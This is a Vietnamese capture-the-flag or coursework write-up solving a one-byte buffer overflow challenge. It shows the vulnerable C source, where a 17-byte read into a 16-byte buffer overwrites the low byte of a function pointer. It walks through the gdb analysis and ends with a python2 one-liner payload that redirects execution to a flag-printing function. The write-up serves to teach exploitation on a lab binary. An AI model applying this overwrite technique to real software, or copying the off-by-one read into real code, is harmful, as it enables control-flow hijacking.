




# BÀI TẬP LỚN KHAI THÁC LỖ HỔNG PHẦN MỀM

- Bài 1: Bufferoverflow-1-byte

Ở đây mình đã được cung cấp source code của bài này



Ở đây ta cần chú ý đến 2 hàm đó là hàm `vun()`

```
void vun()
{
int (*callme_maybe)() = (int(*)())Bye;
char buff[16];
read(0, buff, 17);
callme_maybe();
}
```

và hàm `cat_flag()` để ta lấy flag

```
int cat_flag()
{
system("cat flag");
exit(0);
}
```

Đầu tiên ta sẽ phân tích luồng thực thi của chương trình bằng `gdb`, nhưng trước đó ta cần cấp full quyền cho file `Bufferoverflow-1-byte` bằng câu lệnh 

```
chmod 777 ./Bufferoverflow-1-byte
```

Mình sẽ đặt breakpoint tại sau hàm read để xem những bytes đọc vào được lưu ở đâu



Ok ta sử dụng lệnh `search` để tìm kiếm chuỗi chữ `a` mình vừa nhập vào



Vậy là mình đã biết được chuỗi chữ `a` đã được lưu vào địa chỉ `0xffffcf0c`

Kế đến mình chạy tiếp chương trình thấy chương trình đã đưa 4 bytes từ vị trí [ebp-0xc] vào thanh ghi eax

```
mov    eax, dword ptr [ebp - 0xc]
```

và rồi call eax, ok ta thấy vị trí [ebp-0cx] là giá trị `0x804846b` của hàm `bye()` và cách vị trí lưu giá trị chuỗi `a` khi nãy nhập vào 16 bytes

Lỗi xuất hiện từ đây, do ở hàm `vun()` cấp phát 16 bytes cho biến `buff`,  mà lại cho `read(0, buff, 17)`, vậy là có 1 bytes tràn vào vị trí [ebp-0cx]

- Xem địa chỉ của các hàm ta thấy địa chỉ của hàm `cat_flag()` và địa chỉ của hàm `bye()` khác nhau đúng byte cuối



-> Ta sẽ sử dụng kỹ thuật `buffer overflow` để ghi đè byte cuỗi tại vị trí [ebp-0cx] thì khi `call eax` thì thay vì gọi hàm `bye()` thì chương trình sẽ gọi hàm `cat_flag()` và ta sẽ lấy được flag

Mình sử dụng python2 để gửi 16 ký tự rác và 1 ký tự 0x8b để overwrite

```
python2 -c 'print "A"*16 + "\x8b"' | ./Bufferoverflow-1-byte
```

